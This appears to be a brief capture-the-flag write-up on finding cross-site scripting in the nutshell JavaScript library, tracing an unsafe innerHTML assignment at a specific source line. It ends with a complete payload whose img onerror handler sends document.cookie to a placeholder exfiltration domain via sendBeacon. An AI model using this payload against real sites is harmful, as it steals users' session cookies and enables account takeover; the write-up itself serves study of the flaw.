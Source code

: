 - the goal of this challenge was to find xss in nutshell when it's run on sanitized HTML
- read through nutshell source code :)
- a good place to start -- search for `innerHTML`
- https://github.com/ncase/nutshell/blob/c182586d649153577b985dfd8dfab15e739130f6/nutshell.js#L615C11-L615C11
- `linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);`
- this is vulnerable, because we can control `ex.innerText`! we simply html-encode entities in our link text
- payload: `<a href="#ToWriteASection">:asdf&lt;img src=x onerror='navigator.sendBeacon("https://your_exfil_domain", document.cookie);'&gt;)</a>`

